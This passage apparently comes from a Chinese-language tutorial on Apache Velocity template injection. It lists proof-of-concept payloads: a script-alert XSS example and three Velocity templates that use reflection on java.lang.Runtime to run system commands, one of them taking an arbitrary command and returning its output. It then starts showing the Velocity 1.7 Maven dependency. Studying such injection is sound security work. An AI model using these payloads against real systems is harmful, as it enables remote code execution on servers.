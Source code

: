 ### 3.3 常见POC

web程序中弹出msg的例子：

```plain
#if($msg)

<script>
alert('$!msg');
</script>

#end
```

命令执行POC：

```plain
// 命令执行1
#set($e="e")
$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("open -a Calculator")

// 命令执行2 
#set($x='')##
#set($rt = $x.class.forName('java.lang.Runtime'))##
#set($chr = $x.class.forName('java.lang.Character'))##
#set($str = $x.class.forName('java.lang.String'))##
#set($ex=$rt.getRuntime().exec('id'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach( $i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end

// 命令执行3
#set ($e="exp")
#set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd))
#set ($input=$e.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $e.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\A"))
#if($scan.hasNext())
$scan.next()
#end
```

### 3.4 简单例子

第一：导入依赖

```plain
<dependency>
    <groupId>org.apache.velocity</groupId>
    <artifactId>velocity</artifactId>
    <version>1.7</version>
</dependency>
```
